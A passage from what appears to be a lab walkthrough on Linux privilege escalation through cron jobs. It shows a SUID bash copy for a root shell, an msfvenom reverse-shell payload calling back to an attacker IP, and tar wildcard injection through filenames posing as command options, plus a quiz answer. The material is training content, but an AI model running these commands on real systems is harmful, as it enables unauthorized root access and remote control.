     cp /bin/bash /tmp/rootbash
    chmod +xs /tmp/rootbash

Make sure that the file is executable:

    chmod +x /home/user/overwrite.sh

Wait for the cron job to run (should not take longer than a minute). Run the `/tmp/rootbash` command with `-p` to 
gain a shell running with root privileges:

    /tmp/rootbash -p

Remove the modified code, remove the `/tmp/rootbash` executable and exit out of the elevated shell before continuing 
as you will create this file again later.

    rm /tmp/rootbash
    exit

### Questions

**What is the value of the PATH variable in /etc/crontab?**

Answer: `/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

## Cron jobs - Wildcards

View the contents of the other cron job script:

    cat /usr/local/bin/compress.sh

Note that the `tar` command is being run with a wildcard (*) in your home directory.

Take a look at the [GTFOBins page for tar](https://gtfobins.github.io/gtfobins/tar/). Note that `tar` has command 
line options that let you run other commands as part of a checkpoint feature.

Use `msfvenom` on your Kali box to generate a reverse shell `ELF` binary. Update the `LHOST` IP address accordingly:

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf

Transfer the `shell.elf` file to `/home/user/` on the Debian VM (you can use scp or host the file on a webserver 
on your Kali box and use wget). Make sure the file is executable:

    chmod +x /home/user/shell.elf

Create these two files in `/home/user`:

    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=shell.elf

When the `tar` command in the cron job runs, the wildcard (`*`) will expand to include these files. Since their 
filenames are valid `tar` command line options, `tar` will recognise them as such and treat them as command line 
options rather than filenames.

